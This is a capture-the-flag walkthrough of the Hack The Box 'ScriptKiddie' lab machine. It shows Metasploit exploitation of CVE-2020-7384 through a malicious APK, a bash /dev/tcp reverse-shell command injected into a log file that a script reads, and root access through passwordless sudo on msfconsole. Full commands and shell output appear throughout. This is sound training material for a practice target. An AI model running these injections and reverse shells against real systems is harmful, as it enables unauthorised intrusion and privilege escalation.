





# About
ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability (CVE-2020-7384),
along with classic attacks such as OS command injection and an insecure passwordless sudo configuration.
Initial foothold on the machine is gained by uploading a malicious .apk file from a web interface that calls a
vulnerable version of msfvenom to generate downloadable payloads. Once shell is obtained, lateral
movement to a second user is performed by injecting commands into a log file which provides unsanitized
input to a Bash script that is triggered on file modification. This user is allowed to run msfconsole as root
via sudo without supplying a password, resulting in the escalation of privileges.

Skills Required
* Metasploit usage
* Skills Learned
* Exploiting CVE-2020-7384
* OS Command Injection in command arguments
* Running system commands from Metasploit console
* 
What I learn from this machine ?
* Enumeration
* Malicious payload (template bin)
* Reverse Shell
* Privilege escalation

## Enumeration
```text
# Nmap 7.91 scan initiated Fri Jun  4 15:33:24 2021 as: nmap -sV -sC -oN nmap/scan.txt 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun  4 15:33:52 2021 -- 1 IP address (1 host up) scanned in 27.68 seconds
```
Ports 22 and 5000 are open, and we can see that werkzeug is running, which is a WSGI toolkit. When we hope into the web site we can see website with bunch of tools.



Here I test few things, I do some dirbuster and nothing interesting found. I ran some nmap  with web tool it give back a same result Nothing interesting things happen in nmap section.

After that time waste I hope over to payload section and we have lot to try for exploits like Command Injection, RFI, LFI, File Upload Vulnerability etc.. 

When I saw this **Venom it up -gen rev tcp meterpreter bins** . It might have a exploit so I search for it, Finally I figure it's a **Rapid 7 APK Template Command Injection**



Link to documentation :
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

```bash
┌─[visith@parrot]─[~/CTF/htb/Script_kiddie]
└──╼ $msfconsole
 msf6 > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 4444
LPORT => 4444
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set RHOST 10.10.10.226
RHOST => 10.10.10.226
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set RPORT 5000
RPORT => 5000
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/visith/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```
Now we got the **apk** file . setup a listner and upload into our payload tab. In options put it to android.


After we generate the payload. We got the shell.
```bash
─[visith@parrot]─[~/CTF/htb/Script_kiddie]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.226] 59726
whoami
kid
/usr/bin/script -qc /bin/bash /dev/null
kid@scriptkiddie:~/html$ ls
ls
__pycache__  app.py  static  templates
kid@scriptkiddie:~/html$ 
kid@scriptkiddie:~/html$ pwd
pwd
/home/kid/html
kid@scriptkiddie:~/html$ cd ..
cd ..
kid@scriptkiddie:~$ ls
ls
html  logs  snap  user.txt
kid@scriptkiddie:~$ cat user.txt
cat user.txt
71e094a16b1985dlk7375f1f8b6dd356
```
If you check into the /etc/passwd we can see another user names **pwn**.

```bash
kid@scriptkiddie:~$ cat /etc/passwd | grep -v 'false\|nologin'
cat /etc/passwd | grep -v 'false\|nologin'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```
For more information I enumerate the machine with **linpeas.sh** . I found this on output.


I think **pwn** user having higher privileges. So I tried to search more about **pwn**.



I was confused wtf was that scanlosers.sh. So I navigated to that directory and take a look into it. Guess what we found our way into pwn user.


saclosers.sh encounter with file named as hackers. What caught my attention about the file was the group owner assigned to file **pwn**. 

```bash
kid@scriptkiddie:~$ cd logs
cd logs
kid@scriptkiddie:~/logs$ ls
ls
hackers
kid@scriptkiddie:~/logs$ ls -la
ls -la
total 8
drwxrwxrwx  2 kid kid 4096 Jun  5 02:55 .
drwxr-xr-x 11 kid kid 4096 Feb  3 11:49 ..
-rw-rw-r--  1 kid pwn    0 Jun  5 02:55 hackers
kid@scriptkiddie:~/logs$ 
```
Now we need to setup rev shell. I use everything to make that rev shell and all the time it failed to me. It make me so frustrated. After sometime this was the correct one. 

My revshell was this :
```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/4242 0>&1' #" >> hackers
```
After we execute it we got a callback.

```bash
┌─[visith@parrot]─[~/CTF/htb]
└──╼ $nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.226] 35956
bash: cannot set terminal process group (886): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ ls
ls
recon
scanlosers.sh
```
Let's see are we get the higher privilege.

```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```
We didn't but we got higher privilege as a msfconsole :) 

```bash
pwn@scriptkiddie:~$ sudo msfconsole
sudo msfconsole
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to check out the result of hosts and services

msf6 > cd /root 
msf6 > ls
[*] exec: ls
root.txt
snap
msf6 > cat root.txt
[*] exec: cat root.txt

a84a8ee04cb36a3981be581a85672db4
```
Thx for reading !! 
Happy hacking 